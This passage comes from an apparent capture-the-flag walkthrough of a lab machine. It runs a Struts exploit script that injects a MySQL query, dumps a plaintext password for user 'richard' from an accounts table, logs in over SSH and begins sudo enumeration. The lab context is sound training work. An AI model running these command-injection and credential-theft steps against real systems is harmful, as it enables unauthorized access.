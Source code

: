 In the users database, there is an interesting table called accounts.  Let's take a look at what is in it.
```sql
USE users; SELECT * FROM accounts;
```
```bash
python struts-pwn.py --url 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'mysql --user="admin" --password="admin" --execute="USE users; SELECT * FROM accounts;"'
```
![accounts table](screenshots/12_accounts_table.png)
Looks like we may have some credentials for richard:

```
fullName	        password	                username
Richard F. Smith	9tc*rhKuG5TyXvUJOrE^5CK7k	richard
```
The password does not look hashed, so it could be richard's user password which we may be able to use to SSH into the box.  Let's try it:
```bash
ssh richard@10.10.10.64
```
![richard SSH](screenshots/13_ssh_richard.PNG)
Looks like it worked.  The user flag is in his home directory under user.txt.

## Owning the Box and the Root Flag
After getting user on a Linux box, I like to do some enumeration to see what I can do in the context of that user.  One command I like to run is ```sudo -l``` which tells us what commands the user can run as root, if any.
![richard sudo](screenshots/14_sudol.PNG)

